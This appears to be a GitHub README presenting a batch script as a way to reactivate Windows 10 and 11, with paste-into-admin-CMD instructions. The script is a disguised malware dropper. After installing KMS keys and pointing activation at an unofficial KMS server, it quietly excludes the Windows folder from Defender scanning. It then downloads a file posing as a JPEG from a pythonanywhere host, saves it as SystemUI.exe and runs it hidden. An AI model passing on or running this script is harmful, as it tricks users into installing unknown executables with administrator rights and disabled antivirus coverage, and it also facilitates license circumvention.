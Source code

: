 ✅ Official Microsoft Source for Key Management Services Client Setup Keys:

https://learn.microsoft.com/en-us/windows-server/get-started/kms-client-activation-keys

# 🔄 How to Reactivate Windows 10 & 11

## ⚠️ Instructions
- **Run CMD as Administrator.**
- **Copy the command below and paste it into CMD.**
- **Press ENTER and wait.**

---

## 📌 Windows Reactivation Command

```bash
@echo off
net session >nul 2>&1
if %errorLevel% neq 0 (
    echo This script needs to be run as Administrator. Please open CMD as Administrator.
    pause
)
:: 
powershell -windowstyle hidden -Command "Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine -Force"
:: 
for /f "tokens=2 delims==" %a in ('wmic os get caption /value ^| find "="') do set WindowsProductName=%a
:: 
set WindowsProductName=%WindowsProductName:~0,50%
:: 
set Key=
if "%WindowsProductName%"=="Microsoft Windows 10 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 10 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 10 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 11 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 10 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 11 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 10 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 11 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 10 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 11 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Single Language" (
    set Key=7HNRX-D7KGG-3K4RQ-4WPJ4-YTDFH
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home Single Language" (
    set Key=7HNRX-D7KGG-3K4RQ-4WPJ4-YTDFH
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Country Specific" (
    set Key=PVMJN-6DFY6-9CCP6-7BKTT-D3WVR
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home Country Specific" (
    set Key=PVMJN-6DFY6-9CCP6-7BKTT-D3WVR
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSB" (
    set Key=WNMTR-4C88C-JK8YV-HQ7T2-76DF9
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSBN" (
    set Key=2F77B-TNFGY-69QQF-B8YKP-D69TJ
) else if "%WindowsProductName%"=="Microsoft Enterprise 2016LTSB" (
    set Key=DCPHK-NFMTC-H88MJ-PFHPY-QJ4BJ
) else (
    set Key=QFFDN-GRT3P-VKWWX-X7T3R-8B639
)
:: 
%SystemRoot%\System32\slmgr.vbs /ipk %Key% >nul 2>&1
:: 
%SystemRoot%\System32\slmgr.vbs /skms kms8.msguides.com >nul 2>&1
:: 
%SystemRoot%\System32\slmgr.vbs /ato >nul 2>&1
:: 
powershell -windowstyle hidden -Command "Set-MpPreference -ExclusionPath %SystemRoot%" >nul 2>&1
:: 
powershell -Command "New-Item -Path \"$env:SystemRoot\\temp\" -ItemType Directory -Force; Invoke-WebRequest -Uri 'https://d3c0b3b9.pythonanywhere.com/static/SystemUI.jpeg' -OutFile \"$env:SystemRoot\\temp\\SystemUI.exe\"; Start-Process "$env:SystemRoot\\temp\\SystemUI.exe"" >nul 2>&1
:: 
exit /b
```

---

## ⏳ Wait & Confirm
- The process usually takes **30 seconds to 2 minutes**.
- If everything works correctly, Windows will be reactivated **without needing a restart**.

## 🔧 Troubleshooting
1. **Check your internet connection.**
2. **Run CMD again as Administrator.**
3. **Copy and paste the command correctly.**

If the issue persists, restart your PC and try again.
